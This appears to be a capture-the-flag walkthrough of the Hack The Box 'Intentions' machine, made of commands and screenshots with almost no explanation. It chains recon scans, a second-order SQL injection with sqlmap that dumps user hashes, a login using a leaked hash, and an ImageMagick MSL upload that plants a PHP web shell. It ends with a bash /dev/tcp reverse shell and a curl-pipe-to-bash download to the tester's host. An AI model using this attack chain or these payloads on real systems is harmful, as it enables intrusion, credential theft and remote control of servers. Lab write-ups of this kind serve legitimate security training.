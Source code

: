```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)


![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)


![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)


![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)


![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)


![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)


![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)


![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)


```
curl 'http://intentions.htb/api/v2/admin/image/modify' -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0=' -H 'Cookie: XSRF-TOKEN=eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImVySlh1ZmlzOC9vRXdPaTRHK1A1RHc9PSIsInZhbHVlIjoicitCaW9NTDZNdnBzeVduN0dHek1Gd2gzMHV4ZmxFem9iOEZqUnJRUkg0YWhrdHIxNC9reU5pc3Z3LzhpeUNUdm5HMWhjSFZBZGowTnBvVVNzMnZPbTJGcHRIT205OUxIK2M4Z0RTeTFrVWpnQXlERU1ZOHlEUW9xbWZBV1pKZFQiLCJtYWMiOiJhMzg5NTdhOTQ0NjYwMjNhMWYyNThhYmM2NjljZmNhYWY0NTYzMWMwZGRiY2ZlZjQwYjAyN2Q3NTFmNWMwYWVhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE3MTYzNjE1MTEsImV4cCI6MTcxNjM4MzExMSwibmJmIjoxNzE2MzYxNTExLCJqdGkiOiJZbGVJc0NkWnAzZXc0NWc2Iiwic3ViIjoiMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.Y-yF7_2agtJjTqtFeEThuabmwzTvhDCFoq6tHt0l3zc' -F 'path=vid:msl:/tmp/php*' -F 'effect=asd' -F file=@payload.msl
http://intentions.htb/storage/rce.php?c=ls
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c9c6203b-fe5d-4877-ac23-646845ae13ff)


![image](https://github.com/regarmulia/HTB/assets/33616880/d1878460-5ead-4c80-b142-42758ed435ac)


```
/bin/bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
nc -nlvp 9001
http://intentions.htb/storage/rce.php?c=curl%2010.10.14.6/shell|bash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a087ac9e-afc2-423c-ac18-cb36c5d1f97c)

![image](https://github.com/regarmulia/HTB/assets/33616880/cd0cd12f-2df6-49c2-a38e-d4c5ceb77159)

![image](https://github.com/regarmulia/HTB/assets/33616880/c633d585-805d-4e35-8053-fd525fe104e3)
